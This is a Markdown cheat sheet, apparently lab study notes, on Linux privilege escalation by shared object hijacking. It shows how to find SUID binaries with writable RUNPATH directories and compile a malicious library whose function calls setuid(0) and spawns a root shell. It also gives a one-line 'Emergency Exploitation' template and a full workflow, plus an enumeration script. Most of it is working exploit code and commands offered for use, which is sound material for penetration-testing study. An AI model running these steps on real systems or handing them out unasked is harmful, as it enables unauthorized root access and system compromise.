 # 🎯 Shared Object Hijacking

## 🎯 Overview

Shared object hijacking exploits custom library dependencies in SUID binaries through writable RUNPATH directories, allowing malicious library injection for privilege escalation.

## 🔍 Prerequisites & Detection

### Find SUID Binaries with Custom Libraries
```bash
# Find SUID binaries
find / -type f -perm -4000 2>/dev/null

# Check library dependencies
ldd binary_name

# Look for non-standard libraries
# Example: libshared.so => /development/libshared.so
```

### Check RUNPATH Configuration
```bash
# Check RUNPATH/RPATH settings
readelf -d binary_name | grep PATH

# Example output:
# 0x000000000000001d (RUNPATH) Library runpath: [/development]
```

### Verify Directory Permissions
```bash
# Check if RUNPATH directory is writable
ls -la /development/
# drwxrwxrwx 2 root root 4096 Sep 1 22:06 /development/

# Test write access
touch /development/test && rm /development/test
```

## 🚀 Exploitation Process

### Step 1: Identify Missing Function
```bash
# Copy existing library to trigger error
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

# Execute binary to see missing function
./payroll
# Output: undefined symbol: dbquery
```

### Step 2: Create Malicious Library
```bash
# Create malicious shared object
cat > exploit.c << EOF
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
EOF
```

### Step 3: Compile and Deploy
```bash
# Compile malicious library
gcc exploit.c -fPIC -shared -o /development/libshared.so

# Verify library placement
ls -la /development/libshared.so
```

### Step 4: Execute and Escalate
```bash
# Execute SUID binary
./payroll

# Should get root shell
# id
# uid=0(root) gid=1000(user) groups=1000(user)
```

## 🔧 Advanced Techniques

### Function Discovery Methods
```bash
# Use strings to find function names
strings binary_name | grep -E "^[a-zA-Z_][a-zA-Z0-9_]*$"

# Use objdump for detailed analysis
objdump -T binary_name

# Use nm for symbol table
nm -D binary_name

# Use strace to see runtime calls
strace ./binary_name 2>&1 | grep -E "open.*\.so"
```

### Multiple Function Implementation
```bash
# If binary needs multiple functions
cat > multi.c << EOF
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    setuid(0);
    system("/bin/bash -p");
}

void calculate_salary() {
    return;  // Dummy implementation
}

void print_report() {
    return;  // Dummy implementation
}
EOF
```

## 🔍 Detection & Enumeration

### Shared Object Hijacking Check
```bash
#!/bin/bash
echo "=== SHARED OBJECT HIJACKING CHECK ==="

echo "[+] SUID binaries with custom libraries:"
find / -type f -perm -4000 2>/dev/null | while read binary; do
    libs=$(ldd "$binary" 2>/dev/null | grep -v "linux-vdso\|ld-linux" | awk '{print $3}')
    for lib in $libs; do
        if [ ! -z "$lib" ] && [ "$lib" != "/lib/x86_64-linux-gnu/"* ] && [ "$lib" != "/usr/lib/"* ]; then
            echo "  Binary: $binary"
            echo "  Custom lib: $lib"
            dir=$(dirname "$lib")
            if [ -w "$dir" ]; then
                echo "  [!] WRITABLE: $dir"
            fi
        fi
    done
done

echo "[+] Checking RUNPATH configurations:"
find / -type f -perm -4000 2>/dev/null | while read binary; do
    runpath=$(readelf -d "$binary" 2>/dev/null | grep "RUNPATH\|RPATH")
    if [ ! -z "$runpath" ]; then
        echo "  Binary: $binary"
        echo "  $runpath"
    fi
done
```

### Quick Analysis Commands
```bash
# Check specific binary
ldd ./suspicious_binary
readelf -d ./suspicious_binary | grep PATH

# Test library loading
LD_LIBRARY_PATH=/tmp ./binary_name

# Check writable library directories
find /opt /usr/local /development -type d -writable 2>/dev/null
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Find SUID with custom libs
find / -type f -perm -4000 -exec ldd {} \; 2>/dev/null | grep -E "/opt/|/development/|/usr/local/"

# Check RUNPATH
find / -perm -4000 -exec readelf -d {} \; 2>/dev/null | grep "RUNPATH\|RPATH"

# Writable lib directories
ls -la /development/ /opt/lib/ /usr/local/lib/ 2>/dev/null
```

### Emergency Exploitation
```bash
# If vulnerable SUID found with writable RUNPATH
echo 'void FUNCTION_NAME(){setuid(0);system("/bin/sh -p");}' > exploit.c
gcc exploit.c -fPIC -shared -o /writable/path/library.so
./vulnerable_suid_binary
```

### HTB Academy Workflow
```bash
# 1. Find SUID binary
find / -type f -perm -4000 2>/dev/null

# 2. Check dependencies and RUNPATH
ldd ./payroll
readelf -d ./payroll | grep PATH

# 3. Identify missing function
./payroll  # Note error: undefined symbol: dbquery

# 4. Create and compile exploit
gcc exploit.c -fPIC -shared -o /development/libshared.so

# 5. Execute for root shell
./payroll
```

---

*Shared object hijacking exploits custom library loading mechanisms - writable RUNPATH directories combined with SUID binaries create privilege escalation opportunities through malicious library injection.* 